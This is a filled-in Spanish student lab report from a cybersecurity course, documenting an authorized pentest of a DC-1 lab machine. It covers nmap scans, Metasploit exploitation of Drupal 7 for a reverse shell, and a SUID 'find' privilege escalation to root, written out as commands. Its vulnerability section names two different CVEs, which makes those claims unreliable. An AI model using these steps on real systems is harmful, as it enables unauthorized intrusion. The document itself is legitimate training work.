

# Plantilla del informe · Laboratorio UD01 (LAB01 · DC-1)

**Módulo 5025 · Curso de Especialización en Ciberseguridad**

> **Cómo usarla.** El documentalista rellena esta plantilla **durante la sesión**, a medida que el
> equipo avanza. Sustituid lo que va entre `[corchetes]`. Al final solo queda escribir el resumen
> (apartado 1) y repasar. Un informe por equipo, entregado en Moodle.



---

## 1. Resumen (rellenar al final)

*Tres o cuatro frases para alguien sin perfil técnico: qué habéis auditado, qué habéis encontrado,
qué riesgo supone y qué tiene que hacer el cliente.*

[ ]

> **Ejemplo:** «Hemos auditado el servidor web de Drupalia. Hemos conseguido controlarlo por
> completo sin conocer ninguna contraseña porque su web usa un software sin actualizar. Un atacante
> podría robar o cambiar su información. Recomendamos actualizarlo cuanto antes.»

---

## 2. Datos y alcance (rellenar al empezar)

| Campo | Valor |
|---|---|
| Equipo | GRUPO 1 |
| Operador / Investigador / Documentalista | Manuel  / Javi  / Marco / Daniel |
| Fecha | 19/11/2026 |
| IP de Kali | 10.0.1.10 |
| IP de DC-1 (objetivo) | 10.0.1.11 |
| Permitido | Solo la IP de DC-1: escaneo, análisis web, explotación y escalada |
| Prohibido | Cualquier otra IP, la red del centro, la denegación de servicio |
| ¿La IP de DC-1 está en `10.0.1.0/24`? | Sí |

---

## 3. Qué hemos hecho en cada fase

En cada fase, **antes de ejecutar** un comando, escribid en la columna «Qué esperamos» qué creéis
que va a pasar. Si no sabéis escribirlo, preguntad a la IA qué hace el comando antes de lanzarlo.

### Fase 1 · Reconocimiento: ¿qué máquina hay y qué servicios tiene?

> **Pregunta de ayuda para la IA:** «¿Cómo descubro qué equipos hay en mi red `10.0.1.0/24` y qué
> servicios tiene uno de ellos? Explícame qué hace cada opción del comando.»

| Comando | Qué esperamos | Qué ha salido (lo importante) | 
|---|---|---|---|
| netdiscover | El listado de los equipos que estan dentro de nuestra misma red   | Los equipos conectos a la red que hemos echo el escaneo  |  |
| sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -oN puertos.txt 10.0.1.11 | El listado de los puertos y servicios abiertos  | El listado de los puertos de la maquina selecionada  |  |
| nmap -sC -sV -p22,80,111,36599 -oN puertos-exaustivo.txt 10.0.1.11 | Un escaneo de los puertos que hemos encontrado abiertos en el cual nos ofrece mas información de la version d elos servicios  | Las versiones de los servicios  |  |


**Servicios encontrados:** [puerto · servicio · versión]

| Puerto | Servicio | Version | 
|---|---|---|
|  22/tcp | shh | OpenSSH 6.0p1 Debian 4+deb7u7 (protocol 2.0)
|  80/tcp |  http| Apache httpd 2.2.22 ((Debian))
| 111/tcp  | rpcbind | 2-4 (RPC #100000)

**¿Qué servicio parece más interesante y por qué?** 

Hemos elegido el puerto 80 servicio tcp porque nos estas diciendo que es una pagina web con protocolo http. Y nos revela el escano echo previamente en nmap que usa drupal(version7)

### Fase 2 · Vulnerabilidades: ¿qué tiene un fallo conocido?

Hemos encontrado que atraves de nmap que la pagina web utiliza la version 7 de drupal que tiene una vulnerabilidad critica.

**Vulnerabilidad elegida (CVE) y qué permite hacer:** 

EL CVE es "CVE-2019-6339" y el fallo conocido es que la ejecución remota de código en el wrapper integrado de PHP para el flujo phar al realizar operaciones de archivos sobre un URI de phar:// no confiable. Parte del código Drupal (core, contrib y personalizado) puede estar realizando operaciones de archivo sobre entradas de usuario insuficientemente validadas, exponiéndose así a esta vulnerabilidad. Esta vulnerabilidad se mitiga por el hecho de que tales rutas de código suelen requerir acceso a un permiso administrativo o a una configuración atípica.

### Fase 3 · Explotación: ¿cómo conseguimos entrar?

Primero usando la herramienta metasploit, hemos usado la funcion search para buscar drupal 7, esto nos ha devuelto un listado con los exploits y payloads. luego hemos usado el comando "use" seguido del numero de referencia de el payload.
Una vez seleccionado, hemos usado "set LHOST <ip - atacante>" y "set RHOSTS <ip - victima>" para que metasploit pueda hacer el ataque a la ip de la maquina y establecer una reverse shell a nuestra maquina atacante.

**¿Con qué usuario hemos entrado?** 

El usuario encontrado es www-data

**¿Por qué no somos administradores todavía?**

Porque no hemos hecho la escalada de priviligios 


### Fase 4 · Posexplotación: ¿cómo llegamos a administrador?

¿Que es escalar privilegios?

En Linux se aplica el principio de mínimo privilegio: los servicios expuestos a internet nunca se ejecutan como administrador (root) por seguridad.


**¿Qué fallo de configuración nos ha permitido escalar?**

Una vez dentro de la sesión Meterpreter, ejecutamos la siguiente secuencia para escalar privilegios a root.

>1. Salir de Meterpreter a Shell Real

```bash
shell
```
Explicación: Pasa de la interfaz de Meterpreter a una consola bash estándar, necesario para ejecutar comandos nativos del sistema operativo.

> 2. Buscar Binarios con Permiso SUID

```bash
find / -perm -4000 -type f 2>/dev/null
```
Explicación: Identifica archivos ejecutables que se ejecutan con los permisos del propietario (root). En este caso, /usr/bin/find esta presente y es abusable.

> 3. Abusar de SUID find
Buscando find en la pagina https://gtfobins.org, vemos que podemos ejecutar este comando para escalar a root sin tener privilegios previos.

```bash
find . -exec /bin/sh \; -quit
```
Explicación: El binario find tiene permiso SUID root. Al usar su opción -exec, podemos ejecutar cualquier comando. Ejecutar /bin/sh lanza una shell que hereda los permisos de root. -quit cierra la operación de búsqueda tras la primera ejecución.

**Usuario final:** 

Root

---

## 4. Hallazgos y recomendaciones


| Fallo encontrado | Por qué existe (causa) | Gravedad | Cómo corregirlo | Cómo detectar el ataque |
|---|---|---|---|---|
| Drupal 7 vulnerable a Drupalgeddon2 (CVE-2018-7600): permite ejecutar código sin contraseña | No se ha actualizado desde 2018| Crítica | Actualizar Drupal a una versión corregida | Revisar los registros del servidor web en busca de peticiones anómalas a /user/register |
|---|---|---|---|---|


---

## 5. Uso de la IA

Cada integrante añade al menos una fila con su bitácora.

| Quién | Qué preguntamos | Qué aprendimos | ¿La IA se equivocó? ¿Cómo lo comprobamos? |
|---|---|---|---|
| Javi | Como funciona la escala de privilegios |  A como funciona  | No |
| Dani | Como ver el nombre de usuario en kali | Diferentes formas de verlo  | No |
| Manuel  | Los servicios mas vulnerables  | Cual es el servicio mas vulnerable para la victima | No |
| Marco  | Como buscar los permisos de SUID  | Cual son | No |

